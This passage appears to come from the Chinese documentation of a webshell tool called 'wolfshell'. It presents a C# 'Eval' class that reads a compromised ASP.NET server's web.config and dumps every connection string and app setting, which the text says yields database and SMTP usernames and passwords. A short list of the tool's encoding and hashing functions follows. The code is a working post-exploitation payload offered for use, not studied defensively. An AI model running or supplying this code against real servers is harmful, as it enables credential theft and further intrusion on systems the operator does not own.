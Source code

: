 *   web.config读取：提取数据库连接信息（数据库名、用户、密码）、SMTP/邮件服务器用户密码等。

```csharp

using System;
using System.Configuration;
using System.Text;
public class Eval
{
public string eval(Object obj)
{
try
{
var connectionStrings = ConfigurationManager.ConnectionStrings;
var appSettings = ConfigurationManager.AppSettings;
var result = new StringBuilder();
foreach (ConnectionStringSettings connectionString in connectionStrings)
{
result.AppendLine("Connection string name: " + connectionString.Name);
result.AppendLine("Connection string value: " + connectionString.ConnectionString);
result.AppendLine();
}
result.AppendLine();
foreach (string key in appSettings.AllKeys)
{
result.AppendLine("Key: " + key + ", Value: " + appSettings[key]);
}
return result.ToString();
}
catch (Exception ex)
{
return "Error occurred: " + ex.Message;
}
}
}


```

![C#代码示例](http://www.18k.icu/img/wolfshell/CodeWebConfig.png)


###  加密解密算法

支持加密算法： BASE64、HEX、ASCII、PowerShell、MD5、SHA1、SHA256、URL编码
支持解密算法： BASE64、HEX、ASCII、PowerShell、URL编码

#### 金刚狼密码

![WolfHash](http://www.18k.icu/img/wolfshell/WolfHash.png)

#### ASCII码加密
